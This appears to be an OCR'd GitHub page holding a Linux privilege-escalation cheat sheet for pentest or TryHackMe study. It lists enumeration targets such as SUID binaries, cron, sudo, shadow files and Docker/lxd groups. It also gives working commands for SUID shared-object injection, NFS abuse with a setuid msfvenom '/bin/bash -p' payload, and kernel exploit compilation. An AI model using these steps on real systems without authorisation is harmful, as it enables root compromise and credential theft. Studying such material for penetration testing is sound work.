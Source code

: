 sudo rights (https://medium.com/schkn/linux-privilege-escalation-using-text-editors-
and-files-part-1-a8373396708d)

sensitive files & permission misconfiguration (SSH keys, shadow files)
SUID Binaries
Internal Ports
Processes running with root privilege
Cron tabs
Hidden cron process with pspy
Mounted filesystems
TMUX session hijacking
Path Hijacking
Process Injection (https://github.com/nongiach/sudo_inject)
Docker PS

Interesting groups (https://book.hacktricks.xyz/linux-unix/privilege-
escalation/interesting-groups-linux-pe)

Wheel
Shadow
Disk
Video
Root
Docker
lxd - (https://www.hackingarticles.in/lxd-privilege-escalation/)
Environment variables
bash version < 4.2-048 | 4.4 (https://tryhackme.com/room/linuxprivesc Task 14, 15)
NFS Misconfiguration
linpeas.sh -a //all checks
SUID Shared Object Injection :
Find a SUID binary that looks fishy
strace /usr/local/bin/fishybinary 2>&1 | grep -iE "open|access|no such
file"
Match the shared object that sits in a path where you have write access
create a shared object in the missing SO file name
run the SUID binary

NFS Misconfiguration :
https://tryhackme.com/room/linuxprivesc (Task 19)
cat /etc/exports
On Kali
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o
/tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
On Target
/tmp/shell.elf

Kernel Exploits

cat /proc/version
uname -r
uname -mrs
cat /etc/lsb-release
cat /etc/os-release
gcc exploit.c -o exp
Compile exploit in local machine and upload to remote machine
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
apt-get install gcc-multilib
